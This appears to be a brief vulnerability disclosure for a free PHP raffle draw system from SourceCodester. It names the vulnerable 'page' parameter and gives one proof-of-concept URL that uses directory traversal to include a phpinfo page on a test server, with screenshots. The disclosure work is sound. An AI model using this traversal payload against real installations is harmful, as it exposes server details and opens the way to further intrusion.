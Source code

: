 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15951/raffle-draw-system-using-php-and-javascript-free-source-code.html

Vulnerability trigger parameter: $page

The process of vulnerability discovery is as follows：

![1674055132712](https://user-images.githubusercontent.com/30823782/213210410-fae4892e-8a9e-4673-aa09-3a6a2251967a.jpg)
http://192.168.249.88/php-js-raffle-draw/index.php?page=../dashboard/phpinfo
![image](https://user-images.githubusercontent.com/30823782/213210535-76f45f3f-1347-4b2f-b7a2-b6153b78fa56.png)
